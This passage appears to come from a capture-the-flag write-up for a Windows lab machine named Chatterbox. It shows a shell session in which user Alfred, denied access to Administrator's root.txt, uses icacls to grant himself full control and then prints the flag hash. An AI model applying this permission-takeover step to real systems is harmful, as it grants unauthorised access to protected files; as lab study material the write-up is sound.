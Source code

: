 ```powershell
|   |       
|   +---MSN Websites
|   |       MSN Autos.url
|   |       MSN Entertainment.url
|   |       MSN Money.url
|   |       MSN Sports.url
|   |       MSN.url
|   |       MSNBC News.url
|   |       
|   \---Windows Live
|           Get Windows Live.url
|           Windows Live Gallery.url
|           Windows Live Mail.url
|           Windows Live Spaces.url
|           
+---Links
|       Desktop.lnk
|       Downloads.lnk
|       RecentPlaces.lnk
|       
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos

C:\Users\Administrator>type Desktop\root.txt
type Desktop\root.txt
Access is denied.

C:\Users\Administrator>icacls Desktop\root.txt
icacls Desktop\root.txt
Desktop\root.txt CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator>
```
{: .nolineno}
{: .nolineno}

Since root.txt file have only permission from Administrator so the user Alfred can’t open it but user Alfred can change the permissions of this file also like this →

```powershell
C:\Users\Administrator>icacls C:\Users\Administrator\Desktop\root.txt /grant alfred:f
icacls C:\Users\Administrator\Desktop\root.txt /grant alfred:f
processed file: C:\Users\Administrator\Desktop\root.txt
Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator>icacls Desktop\root.txt
icacls Desktop\root.txt
Desktop\root.txt CHATTERBOX\Alfred:(F)
                 CHATTERBOX\Administrator:(F)

Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator>type Desktop\root.txt
type Desktop\root.txt
7cef4d0a2785f9b4a8404d1c30f6a0a7

C:\Users\Administrator>
```
{: .nolineno}
